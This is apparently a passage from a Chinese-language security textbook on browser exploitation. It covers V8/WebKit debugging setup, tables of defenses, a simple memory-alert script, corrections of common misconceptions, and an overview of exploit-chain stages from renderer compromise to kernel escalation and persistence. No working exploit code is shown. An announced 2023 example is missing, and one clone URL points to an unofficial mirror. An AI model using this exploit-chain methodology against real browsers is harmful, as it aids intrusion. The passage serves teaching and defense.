    --trace-gc --trace-opt exploit.js

# 5. 使用GDB附加到V8进程进行调试
gdb --pid=$(pidof d8)
# 设置V8内部断点
(gdb) break v8::internal::TurboFan::Optimize
```

**WebKit调试环境搭建：**

```bash
# 1. 获取WebKit源码
git clone https://github.com/nicedoc/WebKit.git
# 或使用官方仓库
svn checkout https://svn.webkit.org/repository/webkit/trunk WebKit

# 2. 编译WebKit（macOS）
cd WebKit
Tools/Scripts/build-webkit --debug

# 3. 启用WebKit的调试特性
Tools/Scripts/run-webkit --debug

# 4. 使用lldb附加调试
lldb -p $(pidof WebKitWebProcess)
```

### 31.9.7 防御与检测策略

从防御者角度，理解攻击技术是构建有效防御的前提。以下是从三个层面构建浏览器安全防线的策略：

**1. 引擎层面防御**

| 防御技术 | 原理 | 有效性 | 性能开销 |
|---------|------|-------|---------|
| V8 Sandbox | 堆地址空间隔离 | 高 | 低 |
| Pointer Compression | 减少攻击面 | 中 | 极低 |
| JIT-hardening | JIT代码完整性保护 | 中 | 中 |
| GC加固 | 防止GC时序操纵 | 中 | 低 |
| 沙箱隔离 | 进程级隔离 | 极高 | 中 |

**2. 操作系统层面防御**

| 防御技术 | 原理 | 有效性 |
|---------|------|-------|
| ASLR | 地址空间随机化 | 中（可被泄露绕过） |
| DEP/NX | 数据执行保护 | 高 |
| CFI | 控制流完整性 | 高 |
| seccomp-bpf | 系统调用过滤 | 极高 |
| Mandatory Access Control | SELinux/AppArmor | 高 |

**3. 检测与响应**

```bash
# 1. 内存异常检测脚本
#!/bin/bash
# 监控浏览器进程的内存使用模式
PROCESS_NAME="chrome"
while true; do
    RSS=$(ps aux | grep "$PROCESS_NAME" | awk '{sum+=$6} END {print sum}')
    if [ "$RSS" -gt 4194304 ]; then  # 超过4GB RSS
        echo "[ALERT] 可疑内存使用: ${RSS}KB"
        # 记录进程状态
        ps aux | grep "$PROCESS_NAME" > /tmp/browser_memory_alert.log
    fi
    sleep 60
done

# 2. 使用Chrome的内置安全检查
# chrome://safe-browsing/
# chrome://security/
# chrome://components/ (检查组件更新状态)
```

### 31.9.8 常见误区与纠正

**误区1："浏览器漏洞利用只需要JavaScript知识"**

纠正：浏览器漏洞利用需要深入理解C++内存模型、汇编语言、操作系统原理和编译器优化。JavaScript只是触发漏洞的入口，真正的利用工作涉及大量的底层系统知识。

**误区2："V8 Sandbox让浏览器漏洞利用变得不可能"**

纠正：V8 Sandbox确实显著提高了利用难度，但并非不可绕过。通过结合IPC漏洞、内核漏洞或GPU驱动漏洞，攻击者仍然可以实现完整的利用链。2023年多个在野外利用的0-day漏洞证明了这一点。

**误区3："堆喷射是一种可靠的利用技术"**

纠正：堆喷射的成功率高度依赖于目标浏览器的具体内存分配器实现。在现代浏览器中，堆布局随机化和GC加固使得传统的堆喷射变得越来越不可靠。更先进的技术如"堆塑形"（Heap Feng Shui）和"精确布局控制"正在逐步取代简单的堆喷射。

**误区4："补丁已发布就意味着安全"**

纠正：CVE-2022-22620（WebKit幽灵漏洞）就是最好的反例。一个9年前已修复的漏洞在代码重构中被重新引入。这提醒我们：回归测试和持续审计比补丁发布更重要。

### 31.9.9 进阶：浏览器漏洞利用链构建实战

在实际的浏览器漏洞利用中，通常需要组合多个漏洞来构建完整的攻击链。以2023年在野外利用的Chrome漏洞为例：



**完整利用链的资源需求：**

| 攻击阶段 | 所需漏洞类型 | 独立价值 | 组合价值 |
|---------|------------|---------|---------|
| 渲染器RCE | JS引擎漏洞 | 中（受沙箱限制） | 必要组件 |
| 沙箱逃逸 | IPC/进程间通信漏洞 | 低（无入口点） | 必要组件 |
| 内核提权 | OS内核漏洞 | 高（本地利用） | 最终目标 |
| 持久化 | 系统配置漏洞 | 中 | 增强效果 |

### 31.9.10 本节小结

浏览器漏洞利用是网络安全领域技术密度最高的方向之一。通过本节三个真实案例的分析，我们可以总结出以下核心认知：

1. **类型混淆**是最高效的漏洞利用路径：CVE-2021-30554展示了如何从一个看似简单的类型推断错误，通过精心构造的对象布局实现完整的内存读写原语

2. **UAF漏洞的利用高度依赖GC时机控制**：CVE-2022-26485和CVE-2022-22620都涉及GC调度问题，这是浏览器漏洞利用中最不稳定的因素

3. **代码重构是安全回归的温床**：CVE-2022-22620的教训表明，即使是已知漏洞也可能在代码演进中重新出现

4. **防御纵深是唯一可靠的策略**：单一防线（如V8 Sandbox）无法阻止所有攻击，必须构建多层次防御体系

对于安全研究者而言，深入理解这些案例不仅有助于发现和报告漏洞，更能帮助构建更安全的系统架构。在浏览器安全领域，攻与防永远是一场持续的博弈。
